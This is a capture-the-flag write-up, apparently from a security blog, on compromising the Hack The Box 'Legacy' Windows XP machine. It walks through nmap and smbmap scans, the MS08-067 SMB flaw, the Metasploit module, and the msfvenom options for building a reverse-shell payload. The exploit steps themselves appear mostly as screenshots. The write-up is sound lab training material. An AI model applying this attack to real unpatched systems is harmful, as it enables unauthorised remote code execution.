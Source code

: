 ```yaml
---
title:     "Hack The Box - Legacy"
tags: [windows,easy,smb,ms08-067]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : <https://www.hackthebox.eu/home/machines/profile/2>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/4.png)

I replaced my shellcode here 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/6.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/7.png)

Started my listener on background.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````


